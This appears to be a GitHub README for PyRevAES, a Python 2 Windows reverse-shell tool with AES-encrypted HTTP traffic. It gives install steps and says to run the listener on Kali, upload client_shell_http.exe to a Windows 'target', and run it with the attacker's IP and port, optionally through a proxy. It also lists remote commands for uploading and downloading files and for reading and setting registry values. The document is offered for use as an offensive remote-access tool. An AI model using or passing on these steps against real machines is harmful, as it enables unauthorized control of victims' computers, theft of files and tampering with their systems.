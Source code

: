 <h1 align="center">
	<img width="400" src="pyrevaes.png" alt="PyRevAES">
</h1>

# PyRevAES

A Windows Reverse Shell using HTTP methods with 256-bit AES encryption written in python2.

If I get some time, I will convert this to a python3 project.


## Install:
1. ```git clone https://github.com/simon-revit/PyRevAES.git```
2. ```cd PyRevAES/```
3. ```pip2 install -r requirements.txt```
4. ```python2 server_shell_http.py```
5. choose port ```80``` - Other ports may work, but it works best with port ```80```

## Usage:
1. Run server_shell_http.py from kali (and choose port 80)
```
sudo python2 server_shell_http.py
```
2. Upload client_shell_http.exe to Windows target
3. Run the following command on the target for a reverse shell without proxy:
```
C:\client_shell_http.exe <kali_ip> 80
```
4. Run the following command for a reverse shell with proxy:
```
C:\client_shell_http.exe <kali_ip> <kali_port> <proxy_address> <Proxy_port>
```

## Extras:
```client_shell_http.py``` - If you want to create your own executable or run directly from python,  code is available.

```TCP_proxy_online.py``` - TCP proxy from https://stackoverflow.com/questions/32468270/tcp-proxy-using-python Purely the work of voorloop. You might need to modfy lines 16 and 94 to modify the forwarded reverseshell/port and the proxy port, respectively.

```get-pip.py``` To install pip for python2 (after deprecation). Reference: https://bootstrap.pypa.io/

NB: If changing the ```secret``` AES encryption key, ensure you change both the client and server scripts to match.

## Commands:
```upload [filename]```

```download [filename]```     => Need to rename file after download.

```winreg```                 => displays help message
WINREG HELP
```Usage set:      winreg,set,[HKEY],"[REG_PATH]",[REG_NAME],[value]
Example:        winreg,set,HKEY_CURRENT_USER,control panel\mouse,mousesensitivity,7
                                or
Usage read: winreg,read,[HKEY],[REG_PATH],[REG_NAME]
Example:        winreg,read,HKEY_CURRENT_USER,control panel\mouse,mousesensitivity```


## Issues:
If there are issues with pip2 installation (due to deprecation) refer to this https://bootstrap.pypa.io/ to get pip working again for python2. 

If there are issues with pycrypto, install the following:
```sudo apt install build-essential libssl-dev libffi-dev python-dev```

If still having issues, try running everything using sudo.


## Notes:
- Logo made with courtesy of https://www.freelogodesign.org/
